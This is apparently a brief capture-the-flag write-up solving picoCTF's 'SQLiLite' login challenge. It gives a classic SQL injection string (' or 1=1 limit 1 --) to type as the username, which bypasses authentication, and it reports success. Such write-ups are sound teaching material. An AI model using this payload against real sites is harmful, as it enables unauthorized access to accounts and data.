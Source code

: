 # SQLiLite

Can you login to this website?

> https://play.picoctf.org/practice/challenge/304

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings

# Solve

Basic SQL injection. Using this payload as the username and anything as the password

```
' or 1=1 limit 1 --
```

![alt text](../../../../assets/SQLiLite-1.png)

We logged in successfully

![alt text](../../../../assets/SQLiLite-2.png)